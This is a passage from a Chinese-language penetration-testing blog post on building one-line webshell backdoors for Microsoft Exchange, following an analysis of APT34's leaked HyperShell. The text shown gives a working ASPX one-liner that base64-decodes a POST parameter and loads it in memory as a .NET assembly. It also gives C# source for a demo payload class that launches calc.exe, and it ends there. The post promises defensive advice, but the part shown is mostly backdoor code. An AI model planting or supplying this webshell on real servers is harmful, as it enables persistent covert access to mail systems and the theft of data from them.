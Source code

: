 ```yaml
---
layout: post
title: 渗透基础——Exchange一句话后门的实现
---
```



## 0x00 前言
---

在之前的文章[《对APT34泄露工具的分析-HighShell和HyperShell》](https://3gstudent.github.io/3gstudent.github.io/%E5%AF%B9APT34%E6%B3%84%E9%9C%B2%E5%B7%A5%E5%85%B7%E7%9A%84%E5%88%86%E6%9E%90-HighShell%E5%92%8CHyperShell/)分析了HyperShell中的ExpiredPassword.aspx，通过向Exchange登录页面下的ExpiredPassword.aspx添加代码实现后门功能。

本文将要沿着这个思路，在技术角度介绍另外两种实现方法，开源测试代码，给出防御建议。

## 0x01 简介
---

本文将要介绍以下内容：

- 两种后门代码的实现
- 通过C Sharp代码实现后门连接
- 通过Python代码实现后门连接
- 利用分析
- 防御建议

## 0x02 两种后门代码的实现
---

### 1.内存加载.net程序集

这里参考[《利用动态二进制加密实现新型一句话木马之.NET篇》](https://xz.aliyun.com/t/2744)

为了缩短代码长度，示例test1.aspx的代码如下：

```
<%@ Page Language="C#" %><%System.Reflection.Assembly.Load(Convert.FromBase64String(Request.Form["demodata"])).CreateInstance("Payload").Equals("");%>
```

代码会判断是否带有POST请求的参数`demodata`，如果存在会将POST请求中参数`demodata`的内容作base64解密，在内存加载并调用名为Payload的实例

**注：**

[sharpyshell](https://github.com/antonioCoco/SharPyShell)也使用相同的内存加载方式

我们可以通过以下方式生成Payload：

(1)新建文件demo.cs

代码如下：

```
using System;
using System.Diagnostics;
public class Payload
{
    public override bool Equals(Object obj)
    {
        Process.Start("calc.exe");
        return true;
    }
}
```
